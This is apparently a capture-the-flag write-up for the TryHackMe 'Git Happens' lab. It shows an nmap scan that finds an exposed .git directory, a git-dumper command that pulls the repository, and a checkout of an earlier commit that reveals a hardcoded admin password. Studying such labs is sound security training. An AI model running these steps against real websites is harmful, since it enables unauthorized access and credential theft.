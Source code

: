 # Git Happens
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Tags
--
* git

Tools used
--
* nmap
* git
* git-dumper

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.8.16.123

Victim:
* Name: victim_machine
* IP Address: 10.10.250.20
* Other information must be gathered during the attack

## Phase 1: Enumeration
```
sudo nmap -sS -sC -sV $IPTARGET -p- -T5 -vvv

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-git: 
|   10.10.250.20:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From this output, we see an exposed `.git` repository. Let's dump it by `git-dumper`:
```
git-dumper http://$IPTARGET/.git ~/website
```
The git repository is dumped in `~/website` folder. Let's list the old commits for checking if there is some interesting information:
```
cd ~/website
git log

commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.

    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.

    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
```
The interesting commit could be the one before `Obfuscated the source code`, so our target is the `395e087334d613d5e423cdf8f7be27196a360459` commit. Let's retrieve that commit:
```
git checkout 395e087334d613d5e423cdf8f7be27196a360459
```
Now, visiting the `index.html` file, we can see the following piece of code:
```
<SNIP>
if (
  username === "admin" &&
  password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
) {
<SNIP>
```